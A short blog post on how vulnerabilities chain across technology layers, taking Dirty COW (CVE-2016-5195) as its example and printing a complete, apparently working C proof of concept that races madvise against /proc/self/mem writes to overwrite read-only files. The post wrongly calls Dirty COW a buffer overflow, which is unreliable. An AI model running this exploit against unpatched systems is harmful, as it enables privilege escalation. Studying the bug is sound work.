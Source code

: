 ```yaml
---
title: Chain effect of vulnerabilities
date: 2024-11-23 10H:21:00 -0300
categories: [Cybersecurity, Vulnerabilities]
tags: [cybersecurity, vulnerabilities, CVE, devsecops]
author: 0
description:
image:
  path: https://upload.wikimedia.org/wikipedia/commons/7/73/Logo_nmap.png?20230731104508
  alt: Picture
---
```


# Chain effect of vulnerabilities
The different implementation layers of digital technologies create dependencies that can sometimes lead to security failures with a "chain effect," thereby impacting the underlying technologies.

## Real-world Example: CVE-2016-5195 (Dirty COW)
- Reference: [Nist: CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)
One of the most infamous buffer overflow vulnerabilities in the Linux kernel is CVE-2016-5195, also known as Dirty COW. This vulnerability allowed attackers to gain write access to read-only memory mappings, leading to privilege escalation. The issue was due to a race condition in the kernel's memory subsystem, which could be exploited to overwrite data in memory.

The exploit for Dirty COW was relatively simple and could be executed with a few lines of code, making it a significant threat. The vulnerability had existed in the Linux kernel for nine years before it was discovered and patched.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
  int i;
  for (i = 0; i < 1000000; i++)
    madvise(map, 100, MADV_DONTNEED);
  return NULL;
}

void *procselfmemThread(void *arg) {
  int f = open("/proc/self/mem", O_RDWR);
  int i;
  for (i = 0; i < 1000000; i++) {
    lseek(f, (uintptr_t) map, SEEK_SET);
    write(f, name, strlen(name));
  }
  return NULL;
}

int main(int argc, char *argv[]) {
  pthread_t pth1, pth2;
  f = open(argv[1], O_RDONLY);
  fstat(f, &st);
  name = argv[2];
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  pthread_create(&pth1, NULL, madviseThread, NULL);
  pthread_create(&pth2, NULL, procselfmemThread, NULL);
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
```

This example demonstrates how a buffer overflow vulnerability can lead to severe security incidents, emphasizing the importance of secure coding practices and regular security audits as [Secutiry Controls in DevOps and Pipeline](posts/2024-11-23-Preventive-Security-Controls.md)